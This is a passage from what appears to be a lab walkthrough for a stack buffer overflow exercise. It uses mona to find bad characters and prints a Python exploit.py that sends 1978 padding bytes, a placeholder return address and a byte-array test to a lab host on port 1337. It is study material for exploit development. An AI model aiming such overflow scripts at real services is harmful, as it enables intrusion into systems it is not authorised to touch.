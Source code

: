 ![](cybersecurity/images/Pasted%2520image%252020250529124609.png)

There we go, our address is:

```
0x0018F430
```

Now, we can use mona;

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0x0018F430
```

![](cybersecurity/images/Pasted%2520image%252020250529124830.png)

Mona is telling us `\x01` is mangled in memory, we need to regenerate the bytearray excluding `\x00` and `\x01`:

```
!mona bytearray -b "\x00\x01"
```

On `exploit.py` we need to remove `\x01` too:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix  = "OVERFLOW1 "
offset  = 1978
overflow= "A" * offset
retn    = "BBBB"
padding = ""
payload = "\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()
```
